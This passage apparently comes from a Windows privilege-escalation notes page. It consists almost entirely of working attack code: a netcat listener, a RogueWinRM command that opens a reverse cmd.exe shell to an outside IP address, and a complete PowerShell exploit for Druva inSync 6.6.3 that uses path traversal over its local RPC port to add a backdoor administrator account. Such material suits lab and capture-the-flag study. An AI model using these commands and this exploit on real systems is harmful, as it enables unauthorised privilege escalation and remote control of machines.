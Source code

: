 ```
nc -lvp 4442
```

**Victim(Browser)**

```
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe 10.10.22.165 4442"
```

<figure><img src="../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Abusing vulnerable software

### Case Study: Druva inSync 6.6.3

#### **Druva\_inSync\_exploit.ps1**

```
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
